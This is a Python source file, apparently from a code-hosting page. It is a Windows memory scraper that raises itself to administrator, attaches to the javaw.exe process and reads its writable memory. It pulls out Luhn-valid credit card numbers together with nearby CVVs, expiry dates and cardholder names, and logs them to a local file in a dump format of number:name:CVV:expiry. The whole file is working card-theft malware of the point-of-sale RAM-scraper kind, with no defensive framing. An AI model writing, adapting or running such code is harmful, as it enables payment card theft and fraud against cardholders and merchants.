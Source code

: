 import ctypes
import psutil
import re
import threading
from queue import Queue
import sys
import time

# Constants for process access
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Queue for memory regions to scan (for threading)
memory_queue = Queue()

# Luhn's algorithm to validate credit card numbers
def validate_luhn(card_number):
    total = 0
    reverse_digits = card_number[::-1]
    for i, digit in enumerate(reverse_digits):
        n = int(digit)
        if i % 2 == 1:
            n *= 2
            if n > 9:
                n -= 9
        total += n
    return total % 10 == 0

# Expanded regex patterns
cc_regex = re.compile(r'(\b(?:\d[ -]*?){13,19}\b)')  # Credit card number
cvv_regex = re.compile(r'\b\d{3,4}\b')  # CVV code (3 or 4 digits)
expiry_regex = re.compile(r'\b(0[1-9]|1[0-2])/(?:[0-9]{2}|[0-9]{4})\b')  # Expiry date MM/YY or MM/YYYY
name_regex = re.compile(r'\b[A-Z][a-z]+ [A-Z][a-z]+\b')  # Simple name pattern (First Last)

# Log file
log_file = "log.txt"

# Scan a buffer for potential credit card data
def scan_memory_chunk(memory_chunk):
    results = []

    card_matches = cc_regex.findall(memory_chunk)
    for card_match in card_matches:
        sanitized_card = re.sub(r'[^\d]', '', card_match)  # Remove non-numeric characters

        if validate_luhn(sanitized_card):
            # Try to find associated CVV, expiry date, and name near the card
            match_index = memory_chunk.find(card_match)
            surrounding_text = memory_chunk[max(0, match_index - 200): match_index + 400]  # Extended search range

            # Find possible CVV, expiry date, and name nearby
            cvv_match = cvv_regex.findall(surrounding_text)
            expiry_match = expiry_regex.findall(surrounding_text)
            name_matches = name_regex.findall(surrounding_text)

            # Use the first matches found
            cvv = cvv_match[0] if cvv_match else 'Not Found'
            expiry = expiry_match[0] if expiry_match else 'Not Found'
            name = name_matches[0] if name_matches else 'Not Found'

            card_info = {
                'Card Number': sanitized_card,
                'CVV': cvv,
                'Expiry Date': expiry,
                'Name': name
            }
            results.append(card_info)

    return results

# Worker thread that processes memory chunks
def memory_scan_worker(process_handle):
    while True:
        if memory_queue.empty():
            time.sleep(1)  # Avoid busy waiting
            continue
        
        base_addr, size = memory_queue.get()
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1', errors='ignore'))
                if valid_cards:
                    for card in valid_cards:
                        # Format the output as requested
                        formatted_output = f"{card['Card Number']}:{card['Name']}:{card['CVV']}:{card['Expiry Date']}"
                        print(formatted_output)
                        
                        # Log to file
                        with open(log_file, 'a') as f:
                            f.write(formatted_output + '\n')
        except Exception as e:
            print(f"Error reading memory at {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Define the MEMORY_BASIC_INFORMATION structure
class MEMORY_BASIC_INFORMATION(ctypes.Structure):
    _fields_ = [
        ("BaseAddress", ctypes.c_void_p),
        ("AllocationBase", ctypes.c_void_p),
        ("AllocationProtect", ctypes.c_ulong),
        ("RegionSize", ctypes.c_size_t),
        ("State", ctypes.c_ulong),
        ("Protect", ctypes.c_ulong),
        ("Type", ctypes.c_ulong)
    ]

# Get memory regions to scan (only committed, readable regions)
def get_memory_regions(pid):
    process = psutil.Process(pid)
    with process.oneshot():
        handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not handle:
            raise Exception(f"Failed to open process {pid}")

        memory_regions = []
        address = 0
        mbi = MEMORY_BASIC_INFORMATION()

        while ctypes.windll.kernel32.VirtualQueryEx(handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
            if mbi.State == 0x1000 and mbi.Protect == 0x04:  # MEM_COMMIT and PAGE_READWRITE
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
            address += mbi.RegionSize

        ctypes.windll.kernel32.CloseHandle(handle)
        return memory_regions

# Main function to scan memory of target process
def scan_process_memory(pid, num_threads=4):
    memory_regions = get_memory_regions(pid)
    if not memory_regions:
        print(f"No valid memory regions found for PID {pid}")
        return

    for region in memory_regions:
        memory_queue.put(region)

    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)

    threads = []
    for _ in range(num_threads):
        t = threading.Thread(target=memory_scan_worker, args=(process_handle,))
        t.daemon = True  # Allow threads to exit when the main program does
        t.start()
        threads.append(t)

    try:
        while True:
            # Keep scanning new memory regions in a loop
            new_memory_regions = get_memory_regions(pid)
            for region in new_memory_regions:
                memory_queue.put(region)

            time.sleep(5)  # Delay between scans to reduce CPU usage

    except KeyboardInterrupt:
        print("Stopping the memory scan...")
    finally:
        for t in threads:
            t.join()
        ctypes.windll.kernel32.CloseHandle(process_handle)

def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if __name__ == "__main__":
    if not is_admin():
        print("Attempting to restart with admin privileges...")
        ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
        sys.exit(0)

    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'] == 'javaw.exe':
            target_pid = proc.info['pid']
            print(f"Found javaw.exe with PID {target_pid}")
            scan_process_memory(target_pid)
            break
    else:
        print("javaw.exe not found!")
